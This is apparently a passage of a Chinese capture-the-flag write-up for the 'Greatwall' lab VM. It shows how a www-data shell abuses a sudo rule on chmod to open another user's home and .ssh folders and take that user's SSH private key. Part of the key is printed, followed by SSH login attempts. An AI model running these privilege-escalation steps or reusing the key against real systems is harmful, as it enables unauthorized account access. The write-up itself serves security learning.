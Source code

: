 ```bash
WVqMAOZp34XiM0qOVAWyR/YmLi37rkIxk3qQPvMRooGJL1KL4Szlv/2FEGPwh3Tdyz1/Ys
OxCb1D8k9yD/zbBFZ9ybnI6byo7kFceFuPuCv3jzAyLi+YxCgDi7FEH/NOg6UMG+oN7hus
IDwP2vU6iKNW4WccM9KuGvFTYfrTeXE2mLgTY4KaZIj/8Omf3XpKO4Of6zP8dOAsbECi4K
rJc/nX6an0siiK/4P43uhM/DWhaXjSOSotyJ9MbwxXHfGPz0PkFECpqzm64YMwjKKVAAAA
wD9H1Z4qlfJ7igJ9tbvBKxrD073ywNtOoItuSab4yeG8EeU24x66HSWzrT6bQ+/KuV35aK
beC9oPcNmVp1DBunfCoUdA544QuY9V2u3GMwxexRzzFoMInvgPBvzLHcFc+JS7m3iZ5qIU
0VAN/6x1Y69HAo4h2EtB6PWT4pKFnbKFuPIgSrMfaKy0r+Lbo2oFwtS+KO9Okk9o+/Niia
HRmj8aoI+UilcsO6RjcuuKp4euGDdzr06oVrb1uUseoNkWtwAAAMEA+DTwCdrJOd6blGJm
1eMe6sGglfvRDq67zwPOX1HtU/XxS30dwEmno1VqisH6Fa3DKBp8C2NCA2K1o8Pav9VqT5
c3vNJLe1ezKFYkvXervh6remPS5HPkpyn4Irhd5pjO8PqvrrDGjHEgcAaUsiIM9JyTDETY
RUS90nSAOFaeyONRow9WCLY12wRPWn3FMvVGQJ0RJfSyWnsTv7YOa51hDXYlNAXCcNWCVF
sNPiTb5FiyzoXaZZa6UnddKJKrNraFAAAAwQDyhFvxPwhK1MiShSbpJ9kOw5/l5NFSZyKf
4UqE2yh7K+2OZLeQ4hgoVnP17D4JPZ4fbifsXejWiN4VHr4f0mBq0oXkLqB6BwM0AjDw1t
8yNNSDFjwIagasiPHWcsjg6xi09kNFYvw20bQNjhDF4yh/bNieYpjyqlzaKdZEVnG2kPnv
XqKg7j4rnHclz+HWgwHf+zBGq3a7QKSHs0XqM+Uh54Y6JOphHFLljpV6c6cKQjqB0u4fSP
QMXdH6a7iy89MAAAAOd2FsbEBncmVhdHdhbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
www-data@greatwall:/home/wall/.ssh$ sudo -u wall /bin/chmod 600 id_rsa
```

进行了报错，说明咱们这个办法不太阔以：

```bash
──(kali㉿kali)-[~/temp/Greatwall]
└─$ ssh wall@192.168.182.129 -i wall
The authenticity of host '192.168.182.129 (192.168.182.129)' can't be established.
ED25519 key fingerprint is SHA256:CJQF3wDS2rsdJ+TiNE7LaVsWzEUH2kK3rLthrBNtSqc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.182.129' (ED25519) to the list of known hosts.
wall@192.168.182.129's password: 

┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ ssh wall@192.168.182.129 -i wall -o "StrictHostKeyChecking=no"
wall@192.168.182.129's password:
```

尝试ssh连接，发现连接不上，开始反思是不是哪里不对，定位到了`.ssh`文件夹权限：

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ ls -la /home/kali/ | grep ssh
drwx------  2 kali kali  4096 Jun 18 11:55 .ssh

www-data@greatwall:/home/wall$ sudo -u wall /bin/chmod 700 .ssh

```

然后应该就能连上了，但是这里我在进行尝试时无意间删除了保护文件`authorized_keys`导致必须重新导入靶机进行操作：

```bash
www-data@greatwall:/$ cd /home
www-data@greatwall:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 10 18:54 .
drwxr-xr-x 18 root root 4096 May 10 18:53 ..
drwx------  4 wall wall 4096 May 11 02:41 wall
www-data@greatwall:/home$ sudo -l
Matching Defaults entries for www-data on greatwall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on greatwall:
    (wall) NOPASSWD: /bin/chmod
www-data@greatwall:/home$ sudo -u wall /bin/chmod 777 wall
www-data@greatwall:/home$ cd wall
www-data@greatwall:/home/wall$ ls -la
```